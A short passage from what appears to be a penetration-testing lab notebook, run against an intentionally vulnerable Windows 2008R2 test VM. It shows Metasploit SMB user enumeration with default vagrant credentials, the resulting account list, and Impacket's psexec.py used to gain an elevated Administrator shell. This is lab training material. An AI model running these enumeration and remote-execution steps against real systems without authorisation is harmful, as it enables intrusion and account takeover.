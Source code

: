 - Enumerate users with MSF

```bash
msfconsole
```

```bash
use auxiliary/scanner/smb/smb_enumusers
set RHOSTS 10.2.26.45
set SMBUser vagrant
set SMBPass vagrant
run
```

```bash
[+] 10.2.26.45:445 - VAGRANT-2008R2 [ Administrator, anakin_skywalker, artoo_detoo, ben_kenobi, boba_fett, chewbacca, c_three_pio, darth_vader, greedo, Guest, han_solo, jabba_hutt, jarjar_binks, kylo_ren, lando_calrissian, leia_organa, luke_skywalker, sshd, sshd_server, vagrant ] ( LockoutTries=0 PasswordMin=0 )
```

- In a new terminal, use `psexec.py` to try SMB authentication

```bash
locate psexec.py
cp /usr/share/doc/python3-impacket/examples/psexec.py .
chmod +x psexec.py
```

```bash
python3 psexec.py Administrator@10.2.26.45
```

![psexec - elevated cmd](.gitbook/assets/image-20230424121556797.png)

